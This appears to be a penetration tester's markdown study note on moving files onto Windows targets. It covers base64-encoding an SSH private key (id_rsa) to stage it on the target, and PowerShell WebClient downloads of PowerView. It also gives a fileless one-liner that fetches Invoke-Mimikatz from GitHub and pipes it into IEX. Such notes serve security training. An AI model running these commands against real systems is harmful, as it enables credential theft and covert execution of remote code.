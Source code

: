 ```yaml
---
title: File_Transfer_Methods_Win
tags:
  - file_sharing
  - windows
created: 2025-02-25
---
```


# File Transfers
## Description
There are various methods to transfer files between systems using Windows native tools and PowerShell. 

## Download Operations

### PowerShell Base64 Encode & Decode
Encode a file into a Base64 string (useful when transferring via text channels).
```bash
md5sum id_rsa # For checking the file integrity
cat id_rsa | base64 -w 0; echo
    ```

On the target windows machine decode the string back into a file:
```powershell
[IO.File]::WriteAllBytes("C:\Users\Public\id_rsa",[Convert]::FromBase64String("base64_key"))

# For checking the file integrity
Get-FileHash C:\Users\Public\id_rsa -Algorithm md5
```

>[!Note]
> While this method is convenient, it's not always possible to use. Windows Command Line utility (cmd.exe) has a maximum string length of 8,191 characters. Also, a web shell may error if you attempt to send extremely large strings.
### PowerShell Web Downloads
System.Net.WebClient can download files files via HTTP, HTTPS, or FTP.
Methods include`DownloadFile` and `DownloadFileAsync` for file downloads.
`DownloadString` and `DownloadStringAsync` for downloading as text.
#### Download a PowerShell script:
```powershell
(New-Object Net.WebClient).DownloadFileAsync('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1', 'C:\Users\Public\Downloads\PowerViewAsync.ps1')
   ```
#### Fileless Execution:
  Run downloaded code directly in memory using:
```powershell
(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```
